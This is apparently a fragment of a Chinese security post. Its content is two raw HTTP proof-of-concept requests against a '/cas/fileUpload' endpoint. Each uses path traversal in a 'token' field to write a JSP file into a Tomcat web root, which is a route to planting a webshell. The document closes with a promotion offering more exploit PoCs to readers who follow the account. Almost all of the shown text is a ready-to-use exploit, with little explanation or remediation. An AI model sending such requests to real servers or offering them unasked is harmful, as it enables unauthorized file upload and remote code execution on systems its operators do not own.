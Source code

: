 <table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">POST /cas/fileUpload/upload?token=/../../../../../var/lib/tomcat8/webapps/cas/js/lib/buttons/update.jsp&amp;name=222 HTTP/1.1  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: 172.16.33.199:8080  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: application/json, text/plain, */*  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Connection: close  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Referer: http://172.16.33.199:8080/cas/login Cookie:  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Length: 2212  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-range: bytes 0-10/20  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">jsp数据  </span></section><section style="line-height: normal;"><span style="font-size: 12px;"><br/></span></section><section style="line-height: normal;"><span style="font-size: 17px;">或者</span></section><section style="line-height: normal;"><br/></section><section style="line-height: normal;"><span style="font-size: 12px;">POST /cas/fileUpload/fd HTTP/1.1</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Encoding: gzip, deflate</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept: */*</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Connection: close</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Type: multipart/form-data; boundary=a4d7586ac9d50625dee11e86fa69bc71</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Length: 217</span></section><section style="line-height: normal;"><br/></section><section style="line-height: normal;"><span style="font-size: 12px;">--a4d7586ac9d50625dee11e86fa69bc71</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Disposition: form-data; name=&#34;token&#34;</span></section><section style="line-height: normal;"><br/></section><section style="line-height: normal;"><span style="font-size: 12px;">/../../../../../var/lib/tomcat8/webapps/cas/js/lib/buttons/stc11.jsp</span></section><section style="line-height: normal;"><span style="font-size: 12px;">--a4d7586ac9d50625dee11e86fa69bc71</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;123.jsp&#34;</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Type: image/png</span></section><section style="line-height: normal;"><br/></section><section style="line-height: normal;"><span style="font-size: 12px;">&lt;% out.println(&#34;215882935&#34;);%&gt;  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">--a4d7586ac9d50625dee11e86fa69bc71--</span></section><section style="line-height: normal;"><br/></section></td></tr></tbody></table>  
  
关注公众号并回复hvv漏洞获取最新相关漏洞全部poc  
  
